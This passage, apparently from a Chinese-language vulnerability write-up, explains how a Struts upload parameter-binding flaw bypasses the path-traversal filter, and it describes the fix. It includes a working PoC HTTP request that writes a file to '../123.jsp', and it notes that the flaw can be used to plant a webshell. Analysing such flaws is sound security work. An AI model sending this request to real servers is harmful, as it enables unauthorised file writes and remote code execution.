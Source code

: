   
忽略前面的if，在最后一个else中，如果第一个字符是小写，第二个字符是大写则会直接返回，否则会将第一个字符变为大写，所以uploadFileName  
在经过处理后会变为UploadFileName  
，所以在后面可以通过addIfAccessor  
里面的判断，获取到setUploadFileName  
方法。  
  
也就是说会调用两次setUploadFileName  
方法，而Map中大写的key排在小写的key前面，所以首先会获取到经过目录穿越过滤器过滤的的正确的UploadFileName并通过setUploadFileName  
方法设置到action中的UploadFileName  
属性中  
  
![](https://mmbiz.qpic.cn/mmbiz_png/M3XUNBmia1tODicwemfGicsbnQtfsGkVxacON8vMib9qz9G15sfKwbt6eDWQiaPEE7pvC4pkgOcBzBsSC9nWTUe7MKA/640?wx_fmt=png&from=appmsg "")  
  
而后会设置uploadFileName的参数，而该参数不会经过目录穿越过滤器，也就是这个属性可以通过../进行目录穿越，而后再次调用 setUploadFileName  
方法action中的UploadFileName属性中，完成了变量覆盖。  
  
PoC  
```

```  
```
POST /upload.action HTTP/1.1
Host: 127.0.0.1
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 400
Content-Type: multipart/form-data; boundary=------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
Content-Disposition: form-data; name="Upload"; filename="1.txt"
Content-Type: text/plain

1aaa
--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
Content-Disposition: form-data; name="uploadFileName";
Content-Type: text/plain

../123.jsp
--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN--
```  
###   
### 小结  
  
这个漏洞巧妙地利用了struts中对属性的规范化和Map存储顺序，利用参数绑定巧妙地绕过了目录穿越的过滤，成功进行变量覆盖，从而进行目录穿越，可以利用目录穿越在敏感目录写入webshell，达成远程代码执行。  
  
而在补丁中在使用appendAll之前会调用remove方法，remove方法会忽略大小写，如果存在相同的参数则移除之前，所以当使用小写方式尝试利用时，在appendAll方法内会先移除存在的uploadFileName项，从而避免了后续的变量覆盖。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/M3XUNBmia1tODicwemfGicsbnQtfsGkVxacUsqibRcpWOicia7MAxbXUrXMYyV3Cj9G3gmb2nEyS571TpgJ9u88OVlbQ/640?wx_fmt=png&from=appmsg "")  
  